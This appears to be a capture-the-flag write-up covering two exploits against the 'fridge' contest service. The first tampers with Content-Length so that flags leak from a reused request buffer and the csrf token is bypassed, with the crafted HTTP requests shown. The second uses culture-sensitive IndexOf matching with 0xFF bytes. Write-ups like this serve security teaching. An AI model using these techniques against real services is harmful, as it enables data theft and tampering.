 ## ƒrɪʤ exploits

### Content-Length tampering
fridge service use static pool of buffers to handle POST-requests (to reduce memory traffic :). The pool is actually a queue, so sequential requests use the same buffer. 
The vulnerability lies in fact of using [Content-Length](https://github.com/HackerDom/ructf-2016/blob/master/services/fridge/src/http/RequestAsyncHelper.cs#L43) field value as a length of posted data.
Bad news, Mono runtime allows to handle requests with `Content-Length` set greater than actual number of bytes sent.
So, the exploit can use suffix bytes of previous requests simultaneously overriding prefix data such as `csrf-token`.

Checker POST data:
```http
POST /signup HTTP/1.1
Host: 127.0.0.1:8888
Content-Length: 138
Cookie: csrf-token=F8031998238704D31A2A7ED947B34D75

csrf-token=F8031998238704D31A2A7ED947B34D75&login=FoodBot+0x3d42f02b&pass=7b6196d28&allergen=merluza%2C+FLAGFLAGFLAGFLAGFLAGFLAGFLAGFLA%3D
```

Our POST request:
```http
POST /signup HTTP/1.1
Host: 127.0.0.1:8888
Cookie: csrf-token=00000000000000000000000000000000
Content-Length: 150

csrf-token=00000000000000000000000000000000&login=The_Fridge_Hacker1&pass=xxxx&q=
```

The result is:
`csrf-token=00000000000000000000000000000000&login=The_Fridge_Hacker1&pass=xxxx&q=` **+** `28&allergen=merluza%2C+FLAGFLAGFLAGFLAGFLAGFLAGFLAGFLA%3D` **+** some other bytes

You should carefully select `Content-Length` header value because of other requests, which place `csrf-token` field at the end of data. That's why my exploit didn't work on services review :)

You can also use second request to overwrite data in buffer and prevent other teams to get flags. You only need to listen websocket for registration of `FoodBot 0x` users.

### Substring matching
The second vulnerability: using [IndexOf](https://github.com/HackerDom/ructf-2016/blob/master/services/fridge/src/utils/StringUtils.cs#L20) method, which in fact do complex Unicode string matching (note about Culture for example). And moreover some unicode character are considered as insignificant to IndexOf method.
You can read some information here: http://csharpindepth.com/Articles/General/Strings.aspx#culture. The exploit can register new user with one allergen `%FF%FF%FF... (31 byte)`, which match all flags posted by checksystem as allergens!

Try it out:
```csharp
"abc".IndexOf(Encoding.UTF8.GetString(Enumerable.Repeat((byte)0xff, 100500).ToArray()))
```
